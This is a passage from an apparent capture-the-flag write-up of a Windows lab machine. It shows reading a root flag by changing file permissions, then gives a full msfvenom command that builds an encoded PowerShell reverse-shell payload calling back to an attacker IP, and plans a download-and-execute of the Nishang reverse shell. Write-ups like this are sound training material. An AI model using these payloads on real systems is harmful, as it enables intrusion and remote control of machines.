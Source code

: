 We don’t have permission. View the permissions on the _root.txt_ file.

![](https://miro.medium.com/max/658/1*Io9LZSrwpeVl5r86ZbLR9Q.png)

Only _Administrator_ has full access \(F\) on this file. Let’s view the permissions on the _Desktop_ directory. We must have some kind of permission on it because we’re able to enter it.

![](https://miro.medium.com/max/681/1*8FN10LxJCfJHt2nDF_lwrw.png)

We have full access \(F\) on the _Desktop_ directory. The Alfred user is also configured to own the _root.txt_ file.

![](https://miro.medium.com/max/781/1*RB_nedflS2Jh2bnGom60fQ.png)

So we can simply grant ourselves access to it using the following command.

![](https://miro.medium.com/max/758/1*s6zsv0MsAAp0sp3n7NlOUA.png)

View the permissions again to confirm that the change was made.

![](https://miro.medium.com/max/649/1*YJVoWD189gUyAnYoOtuTjQ.png)

Perfect! We should now be able to view the _root.txt_ flag.

![](https://miro.medium.com/max/567/1*5AV9M9Ls6XTQ2SO-gkwbAQ.png)

Alright, all we did is view the root flag, we didn’t really escalate privileges. Unfortunately our shell can’t handle running PowerShell, so in the next section, we’ll start from the beginning and send a PowerShell reverse shell back to our target machine and from there we’ll escalate our privileges to _Administrator_.

## Extra Content: The PowerShell Solution <a id="e858"></a>

View the options for PowerShell reverse shells in msfvenom.

![](https://miro.medium.com/max/1385/1*HLwepNg6SyWiuGIPICQGVA.png)

We’ll go with the _powershell\_reverse\_tcp_ option.

```text
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Unfortunately, this gives us a payload that is larger than the maximum size specified in the exploit.

![](https://miro.medium.com/max/1421/1*R2cIHjSY_Wf1ANRH_2L_UQ.png)

So instead, we’ll just use the _windows/exec_ module to download and execute the [Nishang](https://github.com/samratashok/nishang) reverse shell.
